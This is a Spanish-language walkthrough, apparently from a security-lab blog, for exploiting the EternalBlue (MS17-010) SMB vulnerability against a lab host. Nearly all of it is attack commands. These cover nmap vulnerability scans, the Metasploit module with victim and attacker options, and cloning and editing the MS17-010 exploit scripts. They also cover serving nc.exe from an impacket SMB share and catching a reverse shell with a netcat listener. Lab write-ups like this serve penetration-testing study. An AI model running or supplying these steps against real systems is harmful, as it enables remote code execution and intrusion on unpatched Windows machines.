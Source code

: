 ```yaml
---
title: "Eternal Blue"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [eternal_blue, MetasPloit]
image:
path: ../../assets/Miniaturas/VectoresDeAtaque/eternalBlue.jpg
width: 800
height: 500
---
```


```bash
# Miramos las categorias de nmap
locate .nse | xargs grep "caqtegories" | grep -oP '".*?"' --colour | sort -u

# Hacemos un escaneo de dos categorias en concreto
nmap -script "vuln and safe" -p445 10.10.10.40 -oN smbVulnScan
```

### Metasploit

![](../../assets/VectoresDeAtaque/Eternal-Blue/1.jpg)

```bash
# Buscamos la vulnerabilidad
search eternal blue

# Seleccionamos el modulo
use 0

# Miramos las opciones
options

# Rellenamos las opciones con SET
set RHOST <ip_víctima>
set RPORT 445
set LHOST <ip_atacante>
set LPORT <ip_escucha>

# Ejecutamos el exploit
run
```

![](../../assets/VectoresDeAtaque/Eternal-Blue/2.jpg)



### Manual

#### Checker.py

```bash
# Descargamos recursos
git clone https://github.com/worawit/MS17-010

# Entramos en el recurso
cd MS17-010

# Primero usamos el checker para validar la explotación
python2 checker.py <RHOST> # ->> Deberia de poner en los pipes algun OK , pero si no funciona , cambia esto:

# Si no te detecta los named pipes , edita el exploit
nvim checker.py
USERNAME = 'guest'

# Lo volvemos a ejecutar
python2 checker.py <RHOST>
```

#### zzz_exploit.py

```bash
# Editamos el escript 
nvim zzz_exploit.py
USERNAME = 'guest'
```

![](../../assets/VectoresDeAtaque/Eternal-Blue/3.jpg)



```bash
# Descargamos el binario de NC para win
https://eternallybored.org/misc/netcat

# Descomprimes el archivo
7z x netcat -d netcat
cd netcat
cp nc64.exe ../scripts
cd ../scripts
mv nc64.exe nc.exe

# Creamos una carpeta compartida con impacket-smbserver
impacket-smbserver smbFolder $(pwd) -smb2support

# Nos ponemos en escucha por netcat
rlwrap nc -lvnp 443

# Iniciamos el exploit
python3 zzz_exploit.py <RHOST> [pipe_name]
```

